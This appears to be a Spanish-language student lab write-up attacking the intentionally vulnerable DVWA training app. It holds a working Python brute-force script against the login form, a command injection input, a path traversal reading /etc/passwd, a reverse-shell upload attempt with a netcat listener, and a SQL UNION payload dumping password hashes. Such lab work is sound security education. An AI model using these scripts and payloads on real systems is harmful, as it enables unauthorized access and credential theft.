




# DVWA - Práctica

## 📋 Descripción

Esta práctica consiste en realizar un ataque de fuerza bruta a la aplicación **DVWA (Damn Vulnerable Web App)** para romper la autenticación de los diferentes módulos utilizando un script en Python y el diccionario `rockyou.txt`.

## 🛠️ Entorno de trabajo

- **Sistema Operativo**: Linux Mint 21
- **Aplicación objetivo**: DVWA (Damn Vulnerable Web App)
- **IP DVWA**: `172.17.0.2` (localhost)
- **Lenguaje del script**: Python 3
- **Herramientas utilizadas**:
  - Python 3
  - Librerías `requests` y `BeautifulSoup`
  - Diccionario `rockyou.txt`

## ⚙️ Configuración inicial

- **Estado de seguridad de DVWA**: `High`
- **Configuración de la base de datos**: Correcta
- **Observaciones**: Se requiere el token `user_token` en cada petición.


## 🧩 Script de Fuerza Bruta

El script realiza las siguientes acciones:
- Establece una sesión usando cookies para seguridad alta.
- Obtiene dinámicamente el `user_token` necesario para cada intento.
- Prueba contraseñas del diccionario `rockyou.txt` una a una.
- Detecta el éxito cuando encuentra el mensaje `Welcome`.

Fragmento del script:

```python
import requests
from bs4 import BeautifulSoup
from requests.structures import CaseInsensitiveDict

url = 'http://172.17.0.2/vulnerabilities/brute/'
headers = CaseInsensitiveDict()
headers["Cookie"] = "security=high; PHPSESSID=rqs9b9elru16hltg6gvagkek195"

r = requests.get(url, headers=headers)
r1 = r.content
soup = BeautifulSoup(r1, 'html.parser')
user_token = soup.findAll('input', attrs={'name': 'user_token'})[0]['value']

with open('rockyou.txt', 'rb') as f:
    for i in f.readlines():
        i = i[:-1]
        try:
            al = i.decode()
        except UnicodeDecodeError:
            print(f"can't decode {i}")
            continue

        r = requests.get(f'http://127.0.0.1/vulnerabilities/brute/?username=admin&password={al}&Login=Login&user_token={user_token}#', headers=headers)
        r1 = r.content
        soup1 = BeautifulSoup(r1, 'html.parser')
        user_token = soup1.findAll('input', attrs={'name': 'user_token'})[0]['value']
        
        print(f'checking {al}')
        if 'Welcome' in r.text:
            print(f'LoggedIn: username: admin , password:{al}   ===found===')
            break
```
## ✅ Resultado

El ataque fue exitoso: se encontró la combinación correcta de usuario y contraseña.

Resultado obtenido en la ejecución:

<p align="center">
  
</p>

## 🧩 Command Injection

En este módulo de DVWA se explota una vulnerabilidad de **inyección de comandos** en el parámetro usado para hacer ping a una IP.

### 🔍 Acciones realizadas:

- Se accedió al apartado **Command Injection** en DVWA.
- En el campo “Enter an IP address” se introdujo un comando malicioso: `localhost | ls`
- Esto permite inyectar un segundo comando (`ls`) y ejecutar código arbitrario en el sistema.

### 💡 Comando utilizado: localhost | ls

Esto ejecuta el ping a `localhost`, y luego el comando `ls` que lista el contenido del directorio actual del servidor.

### 📷 Captura del ataque:

<p align="center">
  
</p>

## ✅ Resultado

Se observó que la aplicación ejecutó correctamente ambos comandos (`ping` y `ls`), mostrando la salida del segundo dentro del navegador, lo que confirma la vulnerabilidad.

## 🧩 File Inclusion

En este módulo se explota una vulnerabilidad de **inclusión de archivos locales (LFI)**, que permite al atacante leer archivos del sistema al manipular una variable que apunta a archivos.

### 🔍 Acciones realizadas:

- Se accedió al módulo **File Inclusion** en DVWA.
- En la URL se modificó el parámetro `page` para intentar acceder a archivos sensibles del sistema.
- Se utilizó una secuencia de directorios para escalar hasta la raíz y acceder al archivo `/etc/passwd`.

### 💡 Inyección utilizada:

http://172.17.0.2/vulnerabilities/fi/?page=../../../../../../etc/passwd


Esta ruta accede al archivo de contraseñas del sistema Linux, que enumera todos los usuarios registrados.

### 📷 Captura del ataque:

<p align="center">
  
</p>

## ✅ Resultado

Se obtuvo correctamente el contenido del archivo `/etc/passwd`, lo cual demuestra que el parámetro vulnerable permite incluir archivos arbitrarios del sistema.

Esto es una vulnerabilidad crítica, ya que permite al atacante conocer usuarios del sistema e incluso combinarse con ejecución remota de código si se incluyen archivos con contenido malicioso.

## 🧩 File Upload + File Inclusion

Este módulo permite probar vulnerabilidades asociadas a la **subida insegura de archivos**. Aprovechando esto, se intenta subir un archivo malicioso que, combinado con **File Inclusion**, permita ejecutar una reverse shell.

### 🔍 Acciones realizadas

1. Se creó un archivo PHP camuflado como imagen (`rev.php.png`) que contiene una reverse shell:


2. Se subió el archivo desde el módulo **File Upload**. DVWA aceptó la carga indicando que fue exitosamente guardado:



3. Se intentó acceder al archivo usando **File Inclusion** para forzar su ejecución desde la ruta:

http://172.17.0.2/vulnerabilities/fi/?page=../../../../hackable/uploads/rev.php.png


4. Mientras tanto, se dejó escuchando una conexión inversa con `netcat` en el puerto 9001:

```bash
nc -lvnp 9001

````
### ⚠️ Nota

Aunque el procedimiento fue correcto, **no se logró establecer la reverse shell**. Posibles causas:

- El archivo `.php.png` no fue ejecutado como PHP por el servidor.
- El servidor puede tener protecciones contra ejecución de archivos subidos.
- Faltó modificar la configuración de DVWA o del servidor para permitir ejecución de archivos `.php`.

### ✅ Resultado

La prueba demuestra que, si el servidor no valida extensiones y contenido correctamente, un atacante puede subir código malicioso.  
Aunque no se obtuvo acceso remoto en este caso, la vulnerabilidad de **subida no restringida + inclusión de archivos** es crítica.

## 🧩 SQL Injection

Este módulo de DVWA permite probar vulnerabilidades de **inyección de código SQL**, que se producen cuando el servidor no filtra correctamente la entrada de usuario antes de ejecutar consultas en la base de datos.

### 🔍 Acciones realizadas

1. Se accedió al módulo **SQL Injection**.
2. En el campo de entrada se utilizó el siguiente payload para realizar una inyección SQL:
   ' UNION SELECT user, password FROM users#
3. El objetivo del payload es modificar la consulta original para que devuelva los usuarios y contraseñas de la tabla `users`, ignorando el resto de la sentencia con `#`.

4. La aplicación devolvió una lista de nombres de usuario y hashes de contraseñas, lo que confirma la vulnerabilidad.

